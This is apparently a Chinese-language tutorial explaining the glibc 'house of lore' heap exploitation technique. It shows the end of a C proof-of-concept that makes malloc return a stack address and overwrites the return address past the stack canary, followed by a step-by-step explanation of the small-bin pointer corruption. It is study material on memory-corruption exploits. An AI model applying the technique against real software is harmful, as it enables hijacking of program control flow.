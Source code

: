 ```c
    char *p4 = malloc(0x100);

    fprintf(stderr, "\nThe fwd pointer of stack_buffer_2 has changed after the last malloc to %p\n",
            stack_buffer_2[2]);

    // 5
    intptr_t sc = (intptr_t)jackpot; // Emulating our in-memory shellcode
    memcpy((p4+40), &sc, 8); // This bypasses stack-smash detection since it jumps over the canary

    // sanity check
    assert((long)__builtin_return_address(0) == (long)jackpot);
}
```

源码被划分成5个步骤：

1. 栈上伪装一个chunk，主要完成了以下工作:

    stack_buffer_1 -> fd = victim_chunk

    stack_buffer_1 -> bk = stack_buffer_2[0]

    stack_buffer_1 -> fd = stack_buffer_1 // 这步是为了绕过small bin的检查：

2. malloc后free，此时victim_chunk被加入unsorted bin，再次malloc使victim_chunk被加入small bin

3. 更改了victim_chunk的bk指针，指向stack_buffer_1，此时small bin就相当于有两个chunk

4. p3 被分配0x100字节，victim_chunk从small bin弹出，这时small bin->bk 指向的是stack_buffer_1

   p4 被分配0x100字节，这块内存的首地址是small bin->bk， 即stack_buffer_1 + 0x10的地址(mem)

   同时，由于stack_buffer_1这个fake chunk的bk指向的是stack_buffer_2，且stack_buffer_2的fd指向的是stack_buffer_1，所以，当stack_buffer_1从small bin取出后，small bin->bk指向的就是stack_buffer_2

5. 此时p4指向的是栈地址，即stack_buffer_1 + 0x10的地址，所以可以通过memcpy可以更改栈上的数据。

   接着就是读取函数地址，并将其赋值给p4+40，绕过stack canary检查，覆盖返回地址。即完成ROP攻击。

参考下图：
